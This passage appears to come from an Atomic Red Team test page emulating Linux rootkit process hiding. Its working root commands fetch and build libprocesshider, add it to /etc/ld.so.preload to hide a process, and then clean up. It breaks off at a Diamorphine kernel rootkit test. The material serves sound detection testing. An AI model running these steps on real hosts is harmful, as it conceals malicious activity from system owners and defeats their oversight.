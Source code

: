 #### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| repo | Url of the github repo zip | string | https://github.com/gianlucaborello/libprocesshider/|
| rev | Revision of the github repo zip | string | 25e0587d6bf2137f8792dc83242b6b0e5a72b415|
| library_path | Full path of the library to add to ld.so.preload | string | /usr/local/lib/libprocesshider.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
echo #{library_path} | tee -a /etc/ld.so.preload
/usr/local/bin/evil_script.py localhost -c 10 >/dev/null & pgrep -l evil_script.py || echo "process hidden"
```

#### Cleanup Commands:
```sh
sed -i "\:^#{library_path}:d" /etc/ld.so.preload
rm -rf #{library_path} /usr/local/bin/evil_script.py /tmp/atomic
```



#### Dependencies:  Run with `bash`!
##### Description: The preload library must exist on disk at specified location (#{library_path})
##### Check Prereq Commands:
```bash
if [ -f #{library_path} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
mkdir -p /tmp/atomic && cd /tmp/atomic
curl -sLO #{repo}/archive/#{rev}.zip && unzip #{rev}.zip && cd libprocesshider-#{rev}
make
cp libprocesshider.so #{library_path}
cp /usr/bin/ping /usr/local/bin/evil_script.py
```




<br/>
<br/>

## Atomic Test #4 - Loadable Kernel Module based Rootkit (Diamorphine)
Loads Diamorphine kernel module, which hides itself and a processes.

**Supported Platforms:** Linux
